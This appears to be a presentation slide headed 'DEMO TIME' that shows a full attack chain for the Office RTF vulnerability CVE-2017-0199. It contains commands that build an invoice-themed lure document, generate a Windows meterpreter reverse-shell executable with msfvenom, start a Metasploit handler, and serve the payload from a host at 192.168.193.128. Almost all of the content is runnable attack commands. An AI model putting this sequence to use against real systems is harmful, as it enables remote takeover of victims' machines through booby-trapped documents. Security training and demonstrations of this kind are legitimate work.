

DEMO TIME
python cve-2017-0199_toolkit.py -M gen -w Factura.rtf -u http://192.168.193.128/logo.doc

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.193.128 LPORT=4444 -f exe > /tmp/shell.exe

msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.193.128; run“

python cve-2017-0199_toolkit.py -M exp -e http://192.168.193.128/shell.exe -l /tmp/shell.exe